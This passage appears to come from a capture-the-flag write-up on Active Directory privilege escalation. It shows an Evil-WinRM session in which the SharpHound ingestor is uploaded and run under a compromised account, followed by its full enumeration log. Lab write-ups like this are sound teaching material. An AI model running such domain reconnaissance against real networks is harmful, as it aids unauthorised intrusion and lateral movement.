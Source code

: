 Now, privilege escalation.

# Privilege Escalation

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities.

## Active Directory Recon

With a valid account, we can now use one of the [BloodHound](https://github.com/BloodHoundAD/BloodHound) ingestors and gather more information about the Active Directory. BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. 

Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Here, we uploaded and executed the [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) ingestor for BloodHound.

```bash
*Evil-WinRM* PS C:\Users\oliver\Documents> upload /home/ax/Downloads/SharpHound.exe
Info: Uploading /home/ax/Downloads/SharpHound.exe to C:\Users\oliver\Documents\SharpHound.exe

                                                             
Data: 1402196 bytes of 1402196 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\oliver\Documents> .\SharpHound.exe
2023-04-28T11:56:27.7806955-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-04-28T11:56:27.9057260-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-04-28T11:56:27.9369875-07:00|INFORMATION|Initializing SharpHound at 11:56 AM on 4/28/2023
2023-04-28T11:56:28.0796322-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-04-28T11:56:28.2358912-07:00|INFORMATION|Beginning LDAP search for object.local
2023-04-28T11:56:28.2671379-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-04-28T11:56:28.2827573-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-04-28T11:56:58.4975843-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2023-04-28T11:57:12.2056494-07:00|INFORMATION|Consumers finished, closing output channel
2023-04-28T11:57:12.2368985-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-04-28T11:57:12.4244033-07:00|INFORMATION|Status: 92 objects finished (+92 2.090909)/s -- Using 45 MB RAM
2023-04-28T11:57:12.4244033-07:00|INFORMATION|Enumeration finished in 00:00:44.1888385
2023-04-28T11:57:12.4869239-07:00|INFORMATION|Saving cache with stats: 52 ID to type mappings.
 52 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-04-28T11:57:12.5025510-07:00|INFORMATION|SharpHound Enumeration Completed at 11:57 AM on 4/28/2023! Happy Graphing!
```
